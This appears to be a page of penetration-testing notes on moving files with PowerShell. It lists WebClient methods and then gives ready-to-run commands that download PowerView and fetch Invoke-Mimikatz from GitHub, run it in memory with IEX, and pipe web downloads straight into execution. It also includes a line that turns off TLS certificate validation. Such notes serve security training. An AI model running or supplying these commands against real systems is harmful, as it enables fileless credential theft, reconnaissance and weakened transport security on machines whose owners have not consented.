 **WebClient Methods:**
- `OpenRead` - Returns data from resource as Stream
- `OpenReadAsync` - Returns data without blocking calling thread
- `DownloadData` - Downloads data and returns Byte array
- `DownloadDataAsync` - Downloads data without blocking calling thread
- `DownloadFile` - Downloads data to local file
- `DownloadFileAsync` - Downloads data to local file without blocking
- `DownloadString` - Downloads String from resource
- `DownloadStringAsync` - Downloads String without blocking calling thread

**PowerShell DownloadFile Method:**
```powershell
# Synchronous download
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

# Asynchronous download
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

**PowerShell DownloadString - Fileless Method:**
```powershell
# Download and execute directly in memory
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

# Using pipeline
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

**PowerShell Invoke-WebRequest:**
```powershell
# Available from PowerShell 3.0 onwards (slower than WebClient)
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

# Using aliases
iwr https://example.com/file.txt -OutFile file.txt
curl https://example.com/file.txt -OutFile file.txt
wget https://example.com/file.txt -OutFile file.txt
```

**Common Errors and Solutions:**

1. **Internet Explorer Configuration Error:**
```powershell
# Error: Internet Explorer first-launch configuration not complete
# Solution: Use -UseBasicParsing parameter
Invoke-WebRequest https://example.com/file.txt -UseBasicParsing | IEX
```

2. **SSL/TLS Certificate Error:**
```powershell
# Bypass SSL certificate validation
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
